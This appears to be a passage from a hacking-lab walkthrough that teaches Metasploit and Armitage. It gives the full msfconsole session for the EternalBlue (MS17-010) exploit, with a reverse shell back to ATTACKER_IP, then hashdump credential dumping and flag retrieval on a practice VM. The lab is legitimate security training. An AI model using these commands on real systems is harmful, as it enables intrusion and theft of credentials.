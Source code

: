 ![](https://miro.medium.com/v2/resize:fit:1400/0*qJYobbx7xjOnOIh3.png)

_Compromised Host in Armitage_

Practice Time

Now that you have learned how to exploit hosts using Armitage, you will now get to practice your skills by hacking the virtual machine by using Metasploit and Armitage. There are multiple exploit paths that you may be able to follow. We encourage you to explore the various exploit paths you may be able to find in order to gain a better understanding of exploitation and post-exploitation modules in Metasploit and Armitage. As a reminder, Armitage is just Metasploit with a GUI; all the same exploits exist and are categorized the same way.

Need Some Help? Click here! If you are having difficulties with compromising the machine, here’s a step-by-step guide to compromise the VM with Metasploit. If you would like to use Armitage, use this [guide that shows step-by-step](https://drive.google.com/file/d/1u-YmWl7cx3tO2vVjon0EtOGLXVCak2SJ/view?usp=sharing) instructions. Now onto Metasploit!

Our first step is to launch Metasploit:

Launching Metasploit and using Eternal Blue!

```
root@attackbox$ msfconsole -qmsf5 > use exploit/windows/smb/ms17_010_eternalblue[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcpmsf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST eth0LHOST => eth0msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST VICTIM_IPRHOST => VICTIM_IPmsf5 exploit(windows/smb/ms17_010_eternalblue) > run[*] Started reverse TCP handler on ATTACKER_IP:4444 [*] VICTIM_IP:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check[+] VICTIM_IP:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)[*] VICTIM_IP:445      - Scanned 1 of 1 hosts (100% complete)[*] VICTIM_IP:445 - Connecting to target for exploitation.[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=meterpreter > getuidServer username: NT AUTHORITY\SYSTEM
```

Now that we have exploited the Virtual Machine and have achieved System level access, we can use the hashdump command to retrieve the users NTLM hashes:

Running Hashdump

```
meterpreter > hashdumpAdministrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d<snip!>4d6e0943c:::Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae93<snip!>d7e0c089c0:::Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867<snip!>5c1309a5c:::meterpreter >
```

All that is left is to now retrieve the flags in the user’s Home folders:

Collecting our flags!

```
meterpreter > cat C:/Users/Administrator/Desktop/root.txtTHM{bd6ea6c87<snip!>21081132744}meterpreter > cat C:/Users/Ted/Desktop/user.txtTHM{217fa45e3<snip!>fc0be28e760}
```

And that’s all there is to it! You have successfully compromised Ted’s PC.
